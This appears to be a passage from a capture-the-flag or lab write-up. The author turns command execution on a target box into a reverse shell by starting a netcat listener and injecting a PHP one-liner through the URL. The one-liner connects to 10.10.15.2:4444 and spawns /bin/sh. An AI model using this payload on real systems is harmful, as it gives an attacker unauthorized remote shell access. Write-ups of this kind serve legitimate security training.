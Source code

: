 ![](images/cmds.png)

This is a bit clunky and the images are wiped after a certain period of time. Let's see if we can use this command execution to get a reverse shell.

Firstly, we'll start our `netcat` listener.

```
$ nc -lvnp 4444
```

If all goes well, the following PHP command plugged into the URL will open a reverse shell on the box and connect back to our machine.

```
php -r '$sock=fsockopen("10.10.15.2",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Plugging it in as is, though, could cause some unwanted issues as the browser tries to interpret certain characters and breakpoints. Let's use an online URL encoder to help mitigate this. This simply replaces the characters with something more concise for the browser to interpret.
